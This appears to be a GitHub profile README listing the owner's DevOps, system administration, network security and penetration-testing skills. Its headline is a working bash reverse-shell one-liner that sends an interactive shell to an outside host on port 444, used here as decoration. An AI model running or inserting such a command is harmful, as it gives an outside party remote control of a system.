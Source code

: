 <h1 align="center"> /bin/bash -i >& /dev/tcp/Ciscoanass/444 0>&1 </h1>


<p align="left">
  <img src="https://i.gifer.com/3rNn.gif" alt="image" width="600" align="right">
  </p>

   &lt;config&gt;

♾️ Devops

🖥️ Sys Administration

🛡️ Network Security

📶 Sys&Network Monitoring

👾 Ethical Hacking

💥 Penetration Testing


   &lt;/config&gt;


<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,github,grafana,prometheus,ansible,nginx,bash,linux,redhat,ubuntu,debian,kali,powershell,windows,mysql,py,js,html,css,wordpress,vscode&perline=12  " />
  </a>
</p>
